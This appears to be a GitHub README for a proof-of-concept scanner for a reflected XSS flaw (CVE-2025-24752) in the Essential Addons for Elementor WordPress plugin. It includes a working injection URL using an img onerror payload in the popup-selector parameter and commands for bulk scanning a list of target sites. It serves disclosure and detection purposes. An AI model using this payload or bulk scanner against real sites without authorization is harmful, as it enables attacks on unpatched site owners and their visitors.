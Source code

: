 # 🔍 Essential Addons for Elementor XSS Vulnerability Detector

## 🚨 Critical Information
**This tool is for security research and patching purposes only. Do not use it to harm sites. If you find vulnerable sites, report them responsibly to site owners so they can update immediately.**

## ⚠️ Vulnerability Details
A reflected XSS vulnerability in Essential Addons for Elementor affects over 100K+ websites using versions below 6.0.15. This has been assigned **CVE-2025-24752**.

## 👉 Manual POC
```
https://target.com/?popup-selector=<img_src=x_onerror=alert("chirag")>&eael-lostpassword=1
```

## 🖼️ Screenshots
![XSS Proof of Concept](https://github.com/user-attachments/assets/4167280d-787d-45cd-81eb-4a5c25368885)
![Alert Demonstration](https://github.com/user-attachments/assets/50d75f05-1392-4acf-9889-525e54ca5128)

## 🔧 Requirements
```bash
pip install selenium webdriver-manager
```

## ⚙️ Usage
```bash
python poc.py targets.txt
```

## ✅ Features
- **100% Accurate Detection**: Unlike nuclei or httpx tools, this script confirms XSS by actually loading the vulnerable page in a browser and witnessing the alert execution
- **Bulk Scanning**: Can process multiple targets (note: will be slower due to browser-based confirmation)
- **Perfect Detection**: Nuclei template included for plugin detection in assets

## 📝 Detection YAML
A perfect detection template for the plugin in assets is included:
[detect-elementor-for-xss.yaml](https://raw.githubusercontent.com/Sachinart/essential-addons-for-elementor-xss-poc/refs/heads/main/detect-elementor-for-xss.yaml)

## 📚 Additional Information & References
The vulnerability occurs due to insufficient validation and sanitizing of the `popup-selector` query argument, allowing a malicious value to be reflected back at the user. Fixed in version 6.0.15.

For more details: [Patchstack Article](https://patchstack.com/articles/reflected-xss-patched-in-essential-addons-for-elementor-affecting-2-million-sites/)

## ⚠️ Disclaimer
This tool is provided for educational and protective purposes only. Always obtain proper authorization before testing any website for vulnerabilities. The author is not responsible for misuse of this tool.

## 🙏 Acknowledgements
Thanks to responsible security researchers who identified and reported this vulnerability.
